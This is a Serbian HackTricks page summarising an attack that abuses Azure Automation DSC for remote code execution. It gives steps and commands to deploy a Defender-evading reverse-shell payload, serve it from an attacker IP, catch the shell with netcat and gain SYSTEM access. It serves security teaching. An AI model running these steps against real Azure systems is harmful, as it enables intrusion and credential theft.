 # Az - Konfiguracija stanja RCE

{% hint style="success" %}
Naučite i vežbajte hakovanje AWS-a:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Obuka AWS Crveni Tim Stručnjak (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naučite i vežbajte hakovanje GCP-a: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Obuka GCP Crveni Tim Stručnjak (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakovanje trikova slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}

**Proverite kompletan post na: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Rezime pripreme infrastrukture udaljenog servera (C2) i koraci

#### Pregled
Proces uključuje postavljanje infrastrukture udaljenog servera za hostovanje modifikovanog Nishang `Invoke-PowerShellTcp.ps1` payload-a, nazvanog `RevPS.ps1`, dizajniranog da zaobiđe Windows Defender. Payload se servira sa Kali Linux mašine sa IP adresom `40.84.7.74` koristeći jednostavan Python HTTP server. Operacija se izvršava kroz nekoliko koraka:

#### Korak 1 — Kreiranje Fajlova
- **Potrebni fajlovi:** Potrebna su dva PowerShell skripta:
1. `reverse_shell_config.ps1`: Fajl konfiguracije željenog stanja (DSC) koji preuzima i izvršava payload. Dostupan je na [GitHub-u](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skripta za objavljivanje konfiguracije na VM, dostupna na [GitHub-u](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Prilagođavanje:** Promenljive i parametri u ovim fajlovima moraju biti prilagođeni specifičnom okruženju korisnika, uključujući imena resursa, putanje fajlova i identifikatore servera/payload-a.

#### Korak 2 — Zipovanje Konfiguracionog Fajla
- `reverse_shell_config.ps1` se kompresuje u `.zip` fajl, čime postaje spreman za transfer na Azure Storage nalog.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Korak 3 — Postavljanje Konteksta Skladištenja & Upload
- Zipovana konfiguraciona datoteka se otprema u unapred definisani Azure Storage kontejner, azure-pentest, koristeći Azure-ov Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Korak 4 — Priprema Kali računara
- Kali server preuzima RevPS.ps1 payload sa GitHub repozitorijuma.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Skripta je izmenjena da bi se odredila ciljana Windows VM i port za obrnutu ljusku.

#### Korak 5 — Objavljivanje konfiguracione datoteke
- Konfiguraciona datoteka se izvršava, što rezultira implementacijom skripte za obrnutu ljusku na određenoj lokaciji na Windows VM.

#### Korak 6 — Hostovanje Payload-a i Postavljanje Slušaoca
- Pokreće se Python SimpleHTTPServer da bi hostovao payload, zajedno sa Netcat slušaocem za hvatanje dolaznih veza.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Zakazani zadatak izvršava payload, postižući privilegije nivoa SISTEM-a.

#### Zaključak

Uspešno izvršavanje ovog procesa otvara brojne mogućnosti za dalje akcije, poput iscrpljivanja akreditacija ili proširenja napada na više VM-ova. Vodič podstiče nastavak učenja i kreativnosti u oblasti Azure Automation DSC.
